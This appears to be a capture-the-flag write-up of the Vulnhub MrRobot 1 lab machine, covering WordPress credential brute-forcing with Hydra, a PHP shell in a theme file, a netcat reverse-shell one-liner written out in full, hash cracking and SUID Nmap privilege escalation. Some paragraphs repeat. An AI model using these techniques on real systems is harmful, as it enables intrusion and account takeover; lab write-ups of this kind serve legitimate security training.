MrRobot 1 is an intermediate OSCP-like machine (according to the Abatchy’s list) hosted on Vulnhub. This machine is a little bit different from the other ones, in this one the goal is to read the three hidden keys in the machine.
Network Scan
As always, I’ve used Nmap to sweep the network and get the IP of the target machine.

The IP of the target machine is 192.168.56.13.
Port Scan
 There are only two ports open (80 and 443) and both of them host the same webpage.
There are only two ports open (80 and 443) and both of them host the same webpage.
Port 80 Enumeration
The root page has an interactive MrRobot themed page but it doesn’t lead to anything useful. Nikto found that the site has WordPress 4.3.1 installed and I found some entries inside the robots.txt file.


The key-1-of-3.txt file contains the first key while fsocity.dic is a dictionary with some repetitions. I removed the repetitions using “cat port80/fsocity.dic | sort | uniq > port80/fsocityFilt.dic”
WordPress Bruteforce
I noticed that the WordPress login page error message was “Invalid username”, so I tried to bruteforce the username using Hydra. To do so I used the Network Firefox utility to get the necessary parameters to login.


 Hydra found the “Elliot” username, so I tried to bruteforce his password using the fsocity dictionary.
Hydra found the “Elliot” username, so I tried to bruteforce his password using the fsocity dictionary.
 

WordPress Access
Using the credentials found with Hydra I logged in as Elliot, who has Administrator privileges.
 With the Administrator privileges we can simply edit a php file of the template with a simple php shell (I used 404.php because it is easy to get it executed). I also found that we can upload a malicious plugin or try to use both CVE-2019-8942 and CVE-2019-8943 to get RCE (I wasn’t able to exploit them).

Once I had the simple shell I executed “rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.10 1234 >/tmp/f” to get a reverse shell.


With the Administrator privileges we can simply edit a php file of the template with a simple php shell (I used 404.php because it is easy to get it executed). I also found that we can upload a malicious plugin or try to use both CVE-2019-8942 and CVE-2019-8943 to get RCE (I wasn’t able to exploit them).

Once I had the simple shell I executed “rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.10 1234 >/tmp/f” to get a reverse shell.


Daemon Shell
I found the second key and a MD5 hash inside the /home/robot/ directory, but the key wasn’t readable with my user, so I used hashcat to crack the hash.

 
Hashcat cracked the hash successfully, giving us the password “abcdefghijklmnopqrstuvwxyz”.

Hashcat cracked the hash successfully, giving us the password “abcdefghijklmnopqrstuvwxyz”.
Robot Shell and Privesc to Root
Using “su robot” with the “abcdefghijklmnopqrstuvwxyz” password I got access to the robot user. Running LinEnum I saw that Nmap was installed in the machine and that it had the SetUID bit enabled. Nmap has an interactive mode, so I used it to get a shell with an efective user id of 0 (root). I know that there are methods to get UID == 0, but having only the EUID was fine for me. The last key was inside /root/.

Conclusions
This is a really straightforward machine if you know what are you doing, so I don’t really get why it is rated as intermediate. Nevertheless, it is a funny machine to root, even though it is a little bit too CTF-like for me.